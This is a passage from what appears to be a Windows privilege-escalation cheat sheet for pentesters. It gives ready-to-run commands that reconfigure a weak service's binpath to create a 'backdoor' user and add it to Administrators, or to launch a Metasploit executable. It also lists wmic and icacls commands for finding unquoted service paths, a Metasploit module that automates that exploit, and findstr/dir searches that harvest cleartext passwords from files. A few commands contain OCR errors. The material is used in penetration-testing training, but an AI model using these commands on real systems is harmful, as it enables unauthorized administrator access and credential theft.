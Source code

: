 Then change the binpath to execute your own commands (restart of the service will most likely be needed):

    $ sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
    $ sc stop <vuln-service>
    $ sc start <vuln$ -service>
    $ sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
    $ sc stop <vuln-service>
    $ sc start <vuln-service>

Note - Might need to use the depend attribute explicitly:

    $ sc stop <vuln-service>
    sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
    sc start <vuln-service>

## EoP 2: Find unquoted paths

If we find a service running as SYSTEM/Administrator with an unquoted path and spaces in the path we can hijack the path and use it to elevate privileges. This occurs because windows will try, for every whitespace, to find the binary in every intermediate folder.

For example, the following path would be vulnerable:

    C:\Program Files\something\winamp.exe

We could place our payload with any of the following paths:

    C:\Program.exe

    C:\Program Files.exe

The following command will display affected services:

    $ wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

We might even be able to override the service executable, always check out the permissions of the service binary:

    $ icacls "C:\Program Files (x86)\Program Folder"

You can autoamte with meterpreter:

    > exploit/windows/local/trusted_service_path

## EoP 3: ClearText passwords (quick hits)

We might somtetimes find passwords in arbitrary files, you can find them running:

    $ findstr /si password *.txt
    findstr /si password *.xml
    findstr /si password *.ini

Find all those strings in config files.

    $ dir /s *pass* == *cred* == *vnc* == *.config*
